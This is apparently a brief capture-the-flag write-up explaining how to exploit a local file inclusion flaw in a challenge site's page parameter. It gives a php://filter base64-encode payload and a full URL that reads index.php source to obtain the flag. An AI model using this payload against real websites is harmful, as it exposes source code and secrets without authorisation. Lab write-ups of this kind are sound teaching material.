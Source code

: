 The hint says to look for php comment into index.php.<br>
So we see a LFI (Local File Include) in the link ...?page=lorem.php<br>
To read index.php source code we need to use a php filter function:
<pre>
php://filter/convert.base64-encode/resource=index.php
</pre>
Just add it to a link
<pre>
http://ringzer0team.com:1008/?page=php://filter/convert.base64-encode/resource=index.php
</pre>
You will get a base64 encoded string. Decode it and read a flag.<br>
GL

